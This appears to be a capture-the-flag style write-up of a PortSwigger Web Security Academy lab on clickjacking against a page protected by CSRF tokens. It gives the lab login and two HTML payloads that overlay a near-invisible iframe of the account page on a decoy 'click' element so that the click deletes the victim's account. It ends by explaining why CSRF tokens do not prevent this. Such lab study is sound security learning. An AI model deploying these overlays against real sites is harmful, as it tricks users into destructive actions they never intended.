


### Basic clickjacking with CSRF token protection : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Login via the given credentials and head to the my-account page.


> We need to replicate this page, this will be the decoy page.
> Above it we will place a transparent layer that when clicked deletes the account.

```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.1; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a8a00bd044b105d81d994f4003600c2.web-security-academy.net/my-account/"> </iframe> 
</body>
```

> To test, we made the opacity of the target website 0.1 to be able to move the decoy `click` right on top of the delete button.
> Keep playing with the pixels in the top and left until the placement of click is right above the delete button. The values above are the final ones.
> To test, simply click on view exploit in the exploit server.





> We can check that if the user hovers on click, the mouse changes to the click button pointer.
> After we are done, change the opacity of the target website to make it transparent and then store it to complete the lab.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a8a00bd044b105d81d994f4003600c2.web-security-academy.net/my-account/"> </iframe> 
</body>
```

##### Notice 

> Notice that the application is using CSRF tokens, but this isnt protecting against the clickjacking attack.
>  Clickjacking attacks are not mitigated by the CSRF token as a target session is established with content loaded from an authentic website and with all requests happening on-domain.

---
